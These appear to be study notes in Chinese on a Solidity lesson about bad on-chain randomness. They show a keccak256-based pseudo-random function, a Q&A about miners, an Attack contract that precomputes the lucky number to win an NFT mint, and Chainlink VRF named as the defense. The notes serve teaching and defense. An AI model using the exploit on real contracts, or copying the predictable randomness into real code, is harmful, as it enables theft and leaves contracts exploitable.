

# 坏随机数
https://www.wtf.academy/docs/solidity-104/S07_BadRandomness/
## 随机数
https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random
### 链上随机数
```
 /** 
    * 链上伪随机数生成
    * 利用keccak256()打包一些链上的全局变量/自定义变量
    * 返回时转换成uint256类型
    */
    function getRandomOnchain() public view returns(uint256){
        // remix运行blockhash会报错
        bytes32 randomBytes = keccak256(abi.encodePacked(block.timestamp, msg.sender, blockhash(block.number-1)));
        
        return uint256(randomBytes);
    }
```

## ERC721

https://github.com/AmazingAng/WTF-Solidity/tree/main/34_ERC721

#### 一些疑问解答
1、在生成随机数的时候，如果block是A，然后打包交易。但是在矿工验证的时候，此时的block应该会变化了，签名不一致就会导致无法打包，为什么还可以打包？


矿工在验证时为什么不会导致签名不一致？

在你的代码中，随机数的生成依赖以下三个输入：

- block.timestamp: 当前区块的时间戳。
- msg.sender: 调用合约的用户地址。
- blockhash(block.number - 1): 前一个区块的哈希值。

在交易提交前，随机数的生成基于当前区块的一些属性（如 block.timestamp 和 blockhash）。然而，这些属性在交易被矿工打包进区块之前，是未知的或者未确定的。

因此：

交易在提交到网络后，由矿工来计算区块中的 block.timestamp 和引用的 blockhash，并生成最终的区块数据。
矿工会验证交易逻辑，但不会因为随机数生成导致签名不一致，因为矿工只需要确保区块中所有交易的执行逻辑是有效的即可。
最终的随机数是由矿工确定的，但矿工也会基于它们自己的打包策略来安排这些参数。


### 链下随机数


### 攻击实例

```
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // 提前计算随机数
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // 利用 luckyNumber 攻击
        nftAddr.luckyMint(luckyNumber);
    }
}
```
note: 这里攻击的时候，NFT铸造的币是属于attack合约的，在BadRandomness中使用的msg.sender，实际的调用者是attack合约


由于attackMint()和luckyMint()将在同一个区块中调用??

这是因为在以太坊的交易和智能合约调用机制中，attackMint() 函数和 luckyMint() 函数的调用都发生在 同一个交易（transaction）中，而一个交易的所有逻辑执行都会在 同一个区块中完成




# 调用attackMint(BadRandomness nftAddr) 
attackMint(BadRandomness nftAddr) external 的函数签名是：
```
attackMint(address)
```

# 防御方式
    使用chain Link下的预言机VRF链下随机数